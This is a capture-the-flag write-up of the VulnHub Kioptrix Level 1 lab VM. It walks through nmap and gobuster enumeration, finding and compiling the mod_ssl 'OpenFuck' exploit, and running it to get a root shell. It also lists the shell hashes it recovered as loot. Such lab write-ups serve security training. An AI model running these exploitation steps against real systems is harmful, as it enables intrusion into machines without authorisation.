


# [[VulnHub] Kioptrix: Level 1 (#1)](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)

**Date**: 28/Sep/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [vulnhub](https://github.com/7h3rAm/writeups/search?q=vulnhub&unscoped_q=vulnhub), [linux](https://github.com/7h3rAm/writeups/search?q=linux&unscoped_q=linux)  
**Tags**: [`exploit_modssl`](https://github.com/7h3rAm/writeups#exploit_modssl), [`privesc_modssl`](https://github.com/7h3rAm/writeups#privesc_modssl)  

## Overview
This is a writeup for VulnHub VM [`Kioptrix: Level 1 (#1)`](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:





\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Fri Sep 27 15:42:00 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.kioptrix1/results/192.168.92.181/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.kioptrix1/results/192.168.92.181/scans/xml/_quick_tcp_nmap.xml 192.168.92.181
Nmap scan report for 192.168.92.181
Host is up, received arp-response (0.0011s latency).
Scanned at 2019-09-27 15:42:01 PDT for 273s
Not shown: 994 closed ports
Reason: 994 resets
PORT     STATE SERVICE     REASON         VERSION
22/tcp   open  ssh         syn-ack ttl 64 OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey:
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
| 1024 35 109482092953601530927446985143812377560925655194254170270380314520841776849335628258408994190413716152105684423280369467219093526740118507720167655934779634416983599247086840099503203800281526143567271862466057363705861760702664279290804439502645034586412570490614431533437479630834594344497670338190191879537
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBAKtycvxuV/e7s2cN74HyTZXHXiBrwyiZe/PKT/inuT5NDSQTPsGiyJZU4gefPAsYKSw5wLe28TDlZWHAdXpNdwyn4QrFQBjwFR+8WbFiAZBoWlSfQPR2RQW8i32Y2P2V79p4mu742HtWBz0hTjkd9qL5j8KCUPDfY9hzDuViWy7PAAAAFQCY9bvq+5rs1OpY5/DGsGx0k6CqGwAAAIBVpBtIHbhvoQdN0WPe8d6OzTTFvdNRa8pWKzV1Hpw+e3qsC4LYHAy1NoeaqK8uJP9203MEkxrd2OoBJKn/8EXlKAco7vC1dr/QWae+NEkI1a38x0Ml545vHAGFaVUWkffHekjhR476Uq4N4qeLfFp5B+v+9flLxYVYsY/ymJKpNgAAAIEApyjrqjgX0AE4fSBFntGFWM3j5M3lc5jw/0qufXlHJu8sZG0FRf9wTI6HlJHHsIKHA7FZ33vGLq3TRmvZucJZ0l55fV2ASS9uvQRE+c8P6w72YCzgJN7v4hYXxnY4RiWvINjW/F6ApQEUJc742i6Fn54FEYAIy5goatGFMwpVq3Q=
|   1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAIEAvv8UUWsrO7+VCG/rTWY72jElft4WXfXGWybh141E8XnWxMCu+R1qdocxhh+4Clz8wO9beuZzG1rjlAD+XHiR3j2P+sw6UODeyBkuP24a+7V8P5nu9ksKD1fA83RyelgSgRJNQgPfFU3gngNno1yN6ossqkcMQTI1CY5nF6iYePs=
|_sshv1: Server supports SSHv1
80/tcp   open  http        syn-ack ttl 64 Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods:
|   Supported Methods: GET HEAD OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp  open  rpcbind     syn-ack ttl 64 2 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1           1024/tcp  status
|_  100024  1           1028/udp  status
139/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd (workgroup: HMYGROUP)
443/tcp  open  ssl/https   syn-ack ttl 64 Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: 400 Bad Request
|_ssl-date: 2019-09-27T22:43:54+00:00; +1m36s from scanner time.
| sslv2:
|   SSLv2 supported
|   ciphers:
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|_    SSL2_DES_64_CBC_WITH_MD5
1024/tcp open  status      syn-ack ttl 64 1 (RPC #100024)
MAC Address: 00:0C:29:45:0D:56 (VMware)

Host script results:
|_clock-skew: mean: 1m35s, deviation: 0s, median: 1m35s
| nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KIOPTRIX<00>         Flags: <unique><active>
|   KIOPTRIX<03>         Flags: <unique><active>
|   KIOPTRIX<20>         Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   MYGROUP<00>          Flags: <group><active>
|   MYGROUP<1d>          Flags: <unique><active>
|   MYGROUP<1e>          Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 39938/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 50948/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 9166/udp): CLEAN (Failed to receive data)
|   Check 4 (port 32743/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
|_smb2-time: Protocol negotiation failed (SMB2)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 27 15:46:34 2019 -- 1 IP address (1 host up) scanned in 274.07 seconds

```

2\. We explore the various directories and files found with `gobuster` scan but nothing interesting is found:  
``` {.python .numberLines}
gobuster -u http://192.168.92.181:80/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -e -k -l -s "200,204,301,302,307,401,403" -x "txt,html,php,asp,aspx,jsp"
  http://192.168.92.181:80/index.html (Status: 200) [Size: 2890]
  http://192.168.92.181:80/manual (Status: 301)
  http://192.168.92.181:80/mrtg (Status: 301)
  http://192.168.92.181:80/test.php (Status: 200) [Size: 27]
  http://192.168.92.181:80/usage (Status: 301)

```

3\. We fallback on Nmap version detection for `443/tcp` and search exploits for `Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b` using `searchsploit`:  
``` {.python .numberLines}
searchsploit mod_ssl
  Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)  | exploits/unix/remote/47080.c

```

  


### Findings
#### Open Ports:
``` {.python .numberLines}
22/tcp    |  ssh          |  OpenSSH 2.9p2 (protocol 1.99)
80/tcp    |  http         |  Apache httpd 1.3.20 ((Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp   |  rpcbind      |  2 (RPC #100000)
137/udp   |  netbios-ns   |  Samba nmbd netbios-ns (workgroup: MYGROUP)
139/tcp   |  netbios-ssn  |  Samba smbd (workgroup: HMYGROUP)
443/tcp   |  ssl/https    |  Apache/1.3.20 (Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
1024/tcp  |  status       |  1 (RPC #100024)
```

\newpage
## Phase #2: Exploitation
1\. We compile this exploit and check it's usage options. It requries a platform specific offset and provides mapping of supported offsets. We determine the required offset value for our target to be `0x6b` based on the Nmap version detection results for `443/tcp`. Once executed, the exploit successfully establishes an elevated, remote session with the target:  
``` {.python .numberLines}
gcc -o 47080 47080.c -lcrypto
./47080
  0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2
./47080 0x6b 192.168.92.181 443

```

  

  

  

2\. We can now read the `/var/mail/root` file to complete the challenge:  
``` {.python .numberLines}
cat /var/mail/root

```

  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
root@kioptrix.level1> id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
root@kioptrix.level1>  
root@kioptrix.level1> uname
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
root@kioptrix.level1>  
root@kioptrix.level1> ifconfig
eth0  Link encap:Ethernet  HWaddr 00:0C:29:45:0D:56
      inet addr:192.168.92.181  Bcast:192.168.92.255  Mask:255.255.255.0
      UP BROADCAST NOTRAILERS RUNNING  MTU:1500  Metric:1
      RX packets:1332326 errors:50 dropped:192 overruns:0 frame:0
      TX packets:1237378 errors:0 dropped:0 overruns:0 carrier:0
      collisions:0 txqueuelen:100
      RX bytes:165986159 (158.2 Mb)  TX bytes:170994218 (163.0 Mb)
      Interrupt:9 Base address:0x2000
root@kioptrix.level1>  
root@kioptrix.level1> users
root
```

\newpage

\newpage

## Loot
### Hashes
``` {.python .numberLines}
root:$1$XROmcfDX$tF93GqnLHOJeGRHpaNyIs0:14513:............
john:$1$zL4.MR4t$26N4YpTGceBO0gTX6TAky1:14513:............
harold:$1$Xx6dZdOd$IMOGACl3r757dv17LZ9010:14513:............
```

## References
[+] <https://www.vulnhub.com/entry/kioptrix-level-1-1,22/>  
[+] <https://medium.com/@bondo.mike/vulnhub-kioptrix-level-1-d439aa7039b2>  
[+] <https://n0tty.github.io/2017/02/25/kioptrix-1/>  
